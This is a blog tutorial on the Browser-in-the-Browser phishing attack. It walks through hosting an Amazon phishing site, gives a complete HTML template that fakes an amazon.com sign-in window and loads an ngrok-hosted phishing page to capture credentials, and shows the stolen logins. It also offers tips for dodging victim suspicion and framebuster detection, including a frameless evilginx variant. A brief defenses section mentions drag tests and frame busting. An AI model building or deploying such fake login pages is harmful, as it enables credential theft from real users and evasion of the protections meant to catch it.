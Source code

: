 +++
title = "Browser-in-the-Browser (BitB) attack"
date = 2024-03-11T20:03:02+02:00
draft = false
tags = ["BitB"]
categories = ["Phishing"]
ShowToc = true
author = ["connar"]
+++

## What is the Browser-in-the-Browser attack
BitB attack is a phishing technique displayed by **mr.d0x** that essentially abuses the Single-Sign-On (SSO) window and modifies the shown url of the popped-up window to seem like a legitimate one.

Basically, the concept of this attack is to host a phishing website and inside the phishing website to create a legitimate looking SSO window (with a valid url) which is a phishing window as well.

## How does it work
The way this attack works is that you host a phishing website, provide a login/signup page with usual platforms like "Continue with email", "Continue with Facebook" etc and make the SSO window look legitimate (valid url) but the reality is that we will have control over that window to, because that window is fake as well.

## Demo
To start off, we need to go to mr.d0x github page and get the template windows for this attack:
- https://github.com/mrd0x/BITB

The files are just usual website files (html, css, js, icons). Example of a window before we modify it is the following:
![original sso window](/posts/bitb/original_SSO_window.png)

In the github repo, there are multiple templates based on the browser and the theme (dark / light). You need to know how the victim has configured his/her browser in order to use the right template so evade suspicions. You can either take a guess based on statistics (what is the most used theme) or write further code in the website to detect the theme and thus use the appropriate theme:
- https://stackoverflow.com/questions/50840168/how-to-detect-if-the-os-is-in-dark-mode-in-browsers


Now that we have chosen a theme, let's host a phishing website. I will go with blackeye one since I have made [a post about it]({{< ref "/phishingsite" >}} "blackeye post").  
We first fire up our phishing website. It's going to be an amazon one:  
![setup phishing website](/posts/bitb/setup_phishingServer.png)

Afterwards, we need to find the appropriate amazon.svg file and place it in the theme folder we are using.
The final html page should be something like the following:
```html
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<link rel="stylesheet" href="style.css">
	<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
</head>
<body>
<div id="window">
<!-- Title bar start -->
<div id="title-bar-width">
	<div id="title-bar">
		<div style="margin-top:5px;">
			<img src="./amazon.svg" width="20px" height="15px" id="logo">
			<span id="logo-description">Please log to your account.</span>
		</div>

		<div>
			<span id="minimize">&#8212;</span>
			<span id="square">□</span>
			<span id="exit">✕</span>
		</div>
	</div>
	<div id="url-bar">
		<img src="./ssl.svg" width="20px" height="20px" id="ssl-padlock">
		<span id="domain-name">https://www.amazon.com</span>
		<span id="domain-path">/signin.html</span>
	</div>
</div>
<!-- Content start -->
<iframe id="content" src="https://44e5-46-177-73-144.ngrok-free.app" frameBorder="0"></iframe>
</div>
</body>
<script src="script.js"></script>
</html>
```

The victim should now see the following window, which seems legitimate:
![amazon fake login](/posts/bitb/amazon_fake_login.png)

Upon entering the credentials, we should see them in our server:
![stole creds](/posts/bitb/stole_credentials.png)

We could also write code to forward the user to the real login of the website we mimiced and pass the given creds as parameters to avoid further suspicion.

## Defenses
The way this attack was initially detected was by trying to drag the SSO window out of the browser window. If the SSO window was not able to escape the outter window, this meant that it was fake.  

Later on, a plugin came out that would identify such windows by the use of their iframes and warn users about this attack.  This is done with a technique known as frame busting, a technique now used by most of the known browsers. This leads to BitB being heavily detected and can burn your phishing domain. In order to avoid BitB being detected, you must somehow heavily obfuscate/hide it.  
So if we somehow managed to solve the defense mechanism that checks for iframes, we would have a successful BitB phishing attack, which brings us to the next section on how to implement this attack without iframes and with the help of evilginx.

## BitB without iframes
In this technique, apache and evilginx is utilized alongside with many css and html tricks, avoiding the use of iframes and thus making a more complicated ("obfuscated") approach that is not that easy to detect. As the developer of this developed technique stated in his github repo: *Framebusters target iframes specifically, so the idea is to create the BITB effect without the use of iframes, and without disrupting the original structure/content of the proxied page. This can be achieved by injecting scripts and HTML besides the original content using search and replace (aka substitutions), then relying completely on HTML/CSS/JS tricks to make the visual effect. We also use an additional trick called "Shadow DOM" in HTML to place the content of the landing page (background) in such a way that it does not interfere with the proxied content, allowing us to flexibly use any landing page with minor additional JS scripts.*

The result is a fully working, undetected to framebusters SSO window using the bitb technique:  
![frameless bitb](/posts/bitb/frameless_bitb.png)

There are many things going on in frameless BitB but **Wael Masri** does a great job explaining the ins and outs of this technique and how you could replicate it:  
<iframe width="760" height="315" src="https://www.youtube.com/embed/luJjxpEwVHI" frameborder="0" allowfullscreen></iframe>

**References**
<blockquote>
    <ul>
        <li> [1] <a href="https://mrd0x.com/browser-in-the-browser-phishing-attack/">Mr.d0x: <i>Browser In The Browser (BITB) Attack</i></a></li>
        <li> [2] <a href="https://cofense.com/blog/browser-in-the-browser-bitb-attack-takes-advantage-of-sso-trust/">Cofense email security: <i>Browser-in-the-Browser (BitB) Attack Takes Advantage of Single-Sign-On Trust</i></a></li>
        <li> [3] <a href="https://www.youtube.com/watch?v=ntS7WHaznjI">Infinite Logins: <i>Browser in the Browser (BITB) Phishing Technique</i></a></li>
        <li> [3] <a href="https://www.youtube.com/watch?v=luJjxpEwVHI">Wael Masri: <i>How To: Evilginx + BITB | Browser In The Browser without iframes in 2024</i></a></li>
        <li> [4] <a href="https://github.com/waelmas/frameless-bitb">waelmas: <i>frameless-bitb</i></a></li>
    </ul>
</blockquote>